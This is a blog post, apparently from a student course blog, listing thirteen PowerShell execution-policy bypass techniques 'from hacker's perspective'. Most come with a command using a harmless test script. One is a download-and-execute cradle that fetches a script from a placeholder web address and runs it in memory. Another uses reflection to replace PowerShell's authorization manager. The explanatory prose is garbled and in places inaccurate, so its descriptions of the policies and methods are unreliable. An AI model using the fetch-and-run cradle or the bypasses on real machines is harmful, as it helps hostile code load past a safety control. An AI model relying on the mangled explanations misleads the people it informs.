 ```yaml
---
layout: post
title:  "Blog 9-SP21"
date:   2021-04-29 20:24:26 -0700
categories: Blog 9-SP21
---
```


<h1><b>PowerShell</b></h1>

PowerShell is an integral part of every windows. From hacker’s perspective, it can be an effective weapon. Even the best-laid plans can be destroyed by its execution policies. On the other hand, there are a number of strategies that can be used to circumvent the execution strategy of PowerShell. 

<h3><b>PowerShell Execution Policy Overview</b></h3>
The object of the execution regulations for the PowerShell is to monitor how to configure files are to be loaded and how scripts are executed. It is a safety feature which helps prevent the execution of malicious scripts. On windows computers, the rules can be set at the level of the computer, user level, and session level. It is necessary to remember that the execution protocol is not designed to be safe. It merely protects users from causing harm accidentally. It can be done in many ways. The execution policies are 7 steps that are the following:

Unrestricted: this is the main procedure for computers not running windows. It ensures that scripts are executed with an alert.

Restricted: for windows computers this is the main which blocks the execution of scripts but required individual actions. 

Bypass: this ensures that all the scripts will run and no alerts shown or given. 
All signed: the required a reputable the creator to sign all the scripts and arrangement files, including the ones that are generated on the local computer. 

Remote signed: this is one of the main default policies on the windows servers. Only files accessed out of the internet that need a signature. 

Default: in here it actually sets the main policy of implementation. 

Undefined: where the existing scope does not contain a policy package if everything is unknown, which are limited defaults to the execution regulations.


{% highlight ruby %}

Get-ExecutionPolicy

{% endhighlight %}

<h4><b>Step 1: Bypass Flag </b></h4>
The bypass flag: using this is maybe the simplest way to transfer the execution policy. Meanwhile the script will run without alerts.

{% highlight ruby %}
PowerShell.exe -ExecutionPolicy Bypass -File .\script.ps1
{% endhighlight %}

<h4><b>Step 2: Unrestricted Flag</b></h4>
Unrestricted flag: is close to the previous method. They are similar in executing the script. The only difference is that the script will run with alerts. 

{% highlight ruby %}
PowerShell.exe -ExecutionPolicy Unrestricted -File .\script.ps1
{% endhighlight %}

<h4><b>Step 3: Command Switch</b></h4>
Command switch: in order to issue instructions, we should use this method to execute straight the script. For basic scripts, this will work; however, the more complicated scripts it will typically make mistakes.

{% highlight ruby %}

PowerShell -command "Write-Host 'This is a test.'"

{% endhighlight %}


<h4><b>Step 4: Encoded Command Switch</b></h4>
Encoded command switch: Analogous to the previous method. This approach encodes the script as an encoded base string. in addition, being vague which will help eliminate parser mistakes. 

{% highlight ruby %}
$command = "Write-Host 'This is a test.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
{% endhighlight %}

<h4><b>Step 5: Invoke-Command</b></h4>
Invoke command: this method is good because when the PowerShell remote control is allowed, it should run the difficult commands against machines.

{% highlight ruby %}
invoke-command -scriptblock {Write-Host "This is a test."}
{% endhighlight %}

<h4><b>Step 6: Invoke-Expression</b></h4>
Invoke expression: here form can be used to pip and run the contents of our documents.

{% highlight ruby %}
Get-Content .\script.ps1 | Invoke-Expression
{% endhighlight %}

<h4><b>Step 7: Download from URL</b></h4>
Download from URL: powershell should run to install a script from the hacker’s computer or the internet and then run it without copying to the disk.

{% highlight ruby %}

PowerShell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://example.com/script.ps1')"

{% endhighlight %}

<h4><b>Step 8: Paste</b></h4>
Another way to execution policy is to directly copy the script into the virtual copy and paste it. Hence, this is helpful for installing short scripts that are not too difficult.

{% highlight ruby %}
Write-Host "This is a test."
{% endhighlight %}

<h4><b>Step 9: Echo & Pipe</b></h4>
Echo and pipe: Reflecting the script to the normal powershell input.

{% highlight ruby %}
Echo Write-Host "This is a test." | PowerShell -noprofile -
{% endhighlight %}

<h4><b>Step 10: Read & Pipe</b></h4>
Read and pipe: reading the output of the script and pipe it to the normal powershell input, equivalent to the previous method.

{% highlight ruby %}
Get-Content .\script.ps1 | PowerShell -noprofile -
{% endhighlight %}

<h4><b>Step 11: Process Scope</b></h4>
Process of scope: The execution policy may be implemented at multiple stages, including the method that is actually managed. As with the current phase, we should change the execution policy.

{% highlight ruby %}
Set-ExecutionPolicy Bypass -Scope Process
{% endhighlight %}

<h4><b>Step 12: Current User Scope</b></h4>
Current user scope: this approach is identical to the procedure scope, except for the current user, it adjusts the execution strategy. This works under the hood by changing a registry key.

{% highlight ruby %}
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted
{% endhighlight %}

<h4><b>Step 13: Authorization Manager Swap</b></h4>
Swap of authorization manager: a functionality of PowerShell is effectively overridden by the final approach we would discuss. When the method is named the authorization manager feature; it will be replaced with a null number, which will lead to unregulated execution policy and allow the script to work.

{% highlight ruby %}
function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))} Disable-ExecutionPolicy .\script.ps1
{% endhighlight %}
